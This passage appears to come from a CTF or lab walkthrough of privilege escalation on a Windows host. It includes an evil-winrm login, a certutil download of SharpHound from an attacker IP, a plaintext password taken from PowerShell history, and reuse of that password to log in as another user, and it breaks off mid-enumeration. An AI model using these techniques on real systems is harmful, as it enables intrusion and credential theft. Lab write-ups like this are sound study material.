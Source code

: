 ```bash
evil-winrm -i 10.10.11.152 -c publicCert.pem -k priv-key.pem -S 
```
# Root privesc
It was not possible to upload SharpHound.exe nor SharpHound.ps1
```powershell
*Evil-WinRM* PS C:\WIndows\Temp\PrivEsc> certutil -urlcache -f http://10.10.14.3/SharpHound.exe SharpHound.exe
At line:1 char:1
+ certutil -urlcache -f http://10.10.14.3/SharpHound.exe SharpHound.exe
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
```
First step is to enumerate manually our user:
```powershell
*Evil-WinRM* PS C:\WIndows\Temp\PrivEsc> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
No special privileges that could lead to a PrivEsc, it is not possible to run wmic either:
```powershell
*Evil-WinRM* PS C:\WIndows\Temp\PrivEsc> wmic process list brief
WMIC.exe : ERROR:
Description = Access denied
*Evil-WinRM* PS C:\WIndows\Temp\PrivEsc> wmic computersystem list
WMIC.exe : ERROR:
Description = Access denied
```
A good technique for privilege escalation on Windows is to read the [[Powershell History]] located in the PATH:  ^3ceb21
```powershell
C:\Users\<Username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
In this case, we found some credentials in clear text on the history:
```powershell
*Evil-WinRM* PS C:\Users\legacyy> type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
We can use this credentials to access to the machine as the user svc_deploy:
```powershell
evil-winrm -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
*Evil-WinRM* PS C:\Users\svc_deploy\Documents>
```
Now is time to enumerate this user's permissions:
```powershell
*Evil-WinRM* PS C:\Uwhoami /priv

PRIVILEGES INFORMATION
```